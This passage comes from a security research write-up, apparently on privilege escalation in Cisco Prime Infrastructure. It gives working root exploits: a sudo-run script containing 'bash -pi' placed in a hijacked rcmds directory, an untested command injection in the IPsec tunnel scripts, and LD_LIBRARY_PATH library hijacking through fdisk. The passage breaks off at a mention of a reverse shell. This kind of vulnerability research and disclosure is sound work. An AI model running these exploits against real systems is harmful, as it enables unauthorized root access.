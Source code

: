 Since we have ownership, we can rename the existing `rcmds` directory (for backup) and create a new one with our own script inside.

```bash
cd /opt/CSCOlumos
mv rcmds/ rcmds2
mkdir rcmds
cd rcmds
echo "bash -pi" > shakirashakira.sh
chmod +x shakirashakira.sh
sudo /opt/CSCOlumos/rcmds/shakirashakira.sh
```

Once executed, we gain root privileges:

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

---

## PrivEsc #6 (Untested)

There is a potential command injection vulnerability in `DeployIPSecTunnel.sh` and `DeleteIPSecTunnel.sh`. While most scripts use sanitization functions from `init.sh`, some scripts do not, allowing unsanitized input.

```bash
/usr/sbin/ipsec auto --add Device_$1
/usr/sbin/ipsec auto --up Device_$1
```

Since `ipsec` was not installed on the system, we could not verify this exploit. Additionally, testing with another version of ipsec produced errors, as it did not recognize auto as a valid command.

---

## PrivEsc #7

Similar to `LD_PRELOAD`, we can use the `LD_LIBRARY_PATH` environment variable to force commands to load our custom libraries. `/opt/CSCOlumos/rcmds/fdiskl` uses `/sbin/fdisk` so to determine which shared libraries `/sbin/fdisk` relies on, we use `ldd`:

```bash
 ldd /sbin/fdisk

	linux-vdso.so.1 =>  (0x00007ffff5b61000)
	libblkid.so.1 => /lib64/libblkid.so.1 (0x00007f281b582000)
	libuuid.so.1 => /lib64/libuuid.so.1 (0x00007f281b37d000)
	libc.so.6 => /lib64/libc.so.6 (0x00007f281afaf000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f281b7c2000)
```

To exploit this, I renamed the shared object file created in PrivEsc #3 to `libblkid.so.1` and used it to gain a reverse shell:
